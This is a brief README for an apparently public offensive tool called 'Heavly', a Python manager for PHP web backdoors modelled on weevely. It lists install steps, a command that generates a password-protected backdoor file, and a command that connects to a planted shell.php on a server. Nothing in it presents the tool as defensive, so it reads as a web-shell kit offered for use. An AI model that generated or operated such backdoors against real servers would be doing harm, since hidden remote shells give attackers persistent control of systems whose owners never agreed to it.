

# Heavly
Backdoor web in python

##Presentation
A web backdoor manager in python, using PHP backdoor, based on weevely

```
    [+] AUTOR:        Gilmar Silva
    [+] GITHUB:       https://github.com/HeavenH
    [+] TWITTER:      https://twitter.com/gilmarsilva_
```

###Install the requirements

```
   sudo pip install -r requirements.txt
```

###How to generate your backdoor:

```
    ./heavly.py -g "name_of_backdoor" "password of backdoor"
    python3 heavly.py -g "name_of_backdoor" "password of backdoor"
    heavly.py -g "name_of_backdoor" "password of backdoor"
 ```
 
###Connecting to the server:

 ```
    ./heavly.py -u "http://localhost/shell.php" "password"
    python3 heavly.py -u "http://localhost/shell.php" "password"
    heavly.py -u "http://localhost/shell.php" "password"
```
###Demo:

